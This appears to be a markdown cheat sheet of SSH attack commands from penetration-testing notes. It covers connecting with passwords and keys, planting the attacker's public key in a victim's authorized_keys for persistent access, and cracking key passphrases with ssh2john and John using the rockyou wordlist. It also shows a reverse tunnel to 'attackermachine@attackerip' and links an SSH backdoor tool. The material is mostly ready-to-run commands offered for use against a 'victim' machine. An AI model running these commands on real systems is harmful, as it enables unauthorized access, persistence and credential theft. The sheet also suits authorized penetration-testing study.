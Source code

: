# SSH

## Connect
```
ssh -p port username@$target
```

## SSPASS Connect
```
sshpass -p "password" ssh username@$target
```

## ssh_key
```
chmod 600 ssh_key
ssh -i ssh_key username@$target
```

## Create some private key
```
ssh-keygen

From your machine: 
scp ~/.ssh/id_rsa.pub victim@victimip:/~/.ssh/

From the victim's machine:
# copy the public in the authorized_keys file 
cat ~/.ssh/id_rsa.pub >> authorized_keys 
(if there is no authorized_keys file, this will create one)

# set the right permissions
chmod 700 ~/
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

## John
```
/usr/sbin/ssh2john id_rsa > id_rsa.hash 
```
or
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
then
```
/usr/sbin/john id_rsa.hash
```
or
```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## SSH Reverse Tunnel
```
ssh -N -R 9999:localhost:22 attackermachine@attackerip
```


## ssh-backdoor
[ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)
